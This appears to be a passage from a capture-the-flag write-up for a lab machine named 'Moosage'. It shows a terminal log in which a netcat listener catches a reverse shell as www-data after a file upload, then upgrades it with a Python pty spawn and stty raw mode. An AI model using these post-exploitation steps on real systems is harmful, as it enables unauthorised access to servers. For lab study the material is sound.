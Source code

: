 
<img src="/assets/img/Moosage/2.png" alt="image-machine" />

```bash
the is to path for the upload files i try both and data/i/file_name * work *

❯ nc -lvnp 9001

Listening on 0.0.0.0 9001

Connection received on 10.105.30.3 41810

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

python3 -c "import pty;pty.spawn('/bin/bash')"

www-data@moosage:~/html/blog/data/i$ export TERM=xterm

export TERM=xterm

www-data@moosage:~/html/blog/data/i$ ^Z

zsh: suspended nc -lvnp 9001

❯ stty raw -echo;fg

[1] + continued nc -lvnp 9001

www-data@moosage:~/html/blog/data/i$

````
